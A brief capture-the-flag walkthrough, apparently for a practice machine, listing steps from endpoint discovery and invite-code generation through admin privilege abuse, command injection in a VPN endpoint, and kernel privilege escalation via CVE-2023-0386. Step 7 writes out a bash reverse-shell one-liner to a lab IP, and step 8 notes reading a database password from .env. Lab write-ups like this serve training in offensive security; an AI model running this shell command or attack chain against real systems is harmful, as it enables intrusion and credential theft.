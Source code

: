 # Solve

1. feroxbuster discovered path to a minified javascript code at `/js/inviteapi.min.js` 
2. resolve the code with `beautifier.io/`
3. the code reveal the way to generate code which we need to register as a user
4. make a GET request to `/api/v1` to discover the available endpoints
5. use the `/api/v1/admin/settings/update` to change our account to admin
6. at username field at `/api/v1/admin/vpn/generate` is vulnerable to RCE.
7. `bash -c 'bash -i >& /dev/tcp/10.10.14.60/9001 0>&1'` to reverse shell
8. review source code and we realise the app is grabbing the database password from `.env`
9. `uname -a`, the kernel is vulnerable to `CVE-2023-0386`
10. copy the zipped file to the server and execute as the README instruction